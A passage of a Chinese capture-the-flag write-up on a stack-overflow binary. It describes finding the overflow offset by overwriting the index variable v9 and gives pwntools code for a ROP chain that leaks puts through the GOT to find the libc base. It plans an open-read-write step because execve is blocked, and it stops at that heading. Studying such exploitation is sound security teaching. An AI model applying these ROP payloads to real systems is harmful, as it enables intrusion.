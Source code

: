 程序拖入IDA中, 发现漏洞就是最简单的栈溢出, 我们可以无限制的向 victim\[1032\] 这个数组中写入.

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-e5152cf68ef2c29e47943198842c8e107422ac69.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-e5152cf68ef2c29e47943198842c8e107422ac69.png)  
其他函数可以不用管,不用逆的东西多看一秒都是浪费生命.

利用思路
----

没有stack canary, 可以直接栈溢出构造rop chain  
禁用了 execve() , 因此使用orw (Open-Read-Write) 获取flag

那么完整思路有了

1. 泄露Libc基地址
2. 打开flag文件, 从中读取内容并输出 (orw)

具体利用
----

看起来很简单,但其实在利用时还有比较多细节要处理.

如何确定溢出的偏移?
----------

仔细看一下处理输入的代码,发现溢出 victim\[\] 数组后会覆盖变量 v9 , 而 v9 是记录输入偏移的变量.  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-454a8bf2076521131adbab4e595baef1da36edb2.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-454a8bf2076521131adbab4e595baef1da36edb2.png)

若想要准确的覆盖返回地址,需要先准确的覆盖 v9 .  
v9 与 victim\[\] 的偏移为0x418, 返回地址与 victim\[\] 的偏移为0x428. 因此我们需要将v9覆盖为0x428,

```php
padding="A"*0x418+"\x28"
```

由于 v9 的值从0x419被覆盖成了0x428,紧接着的下一个字符就会输入到 victim\[0x428\] 的位置,也  
即 main 函数的返回地址.

如何泄露libc
--------

泄露libc的方式很常规,可以参考之前ROP的基础篇.  
输出GOT表中存放的 puts 函数真实地址,以计算libc基地址.

```php
payload = padding + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) +p64(main)
target.sendline(payload)
target.recvuntil("given path.\n\x00")
puts_leak = u64(target.recv(6).ljust(8,'\x00'))
libc_base = puts_leak - libc.sym["puts"]
success("libc_base: "+hex(libc_base))
```

Open-Read-Write
---------------
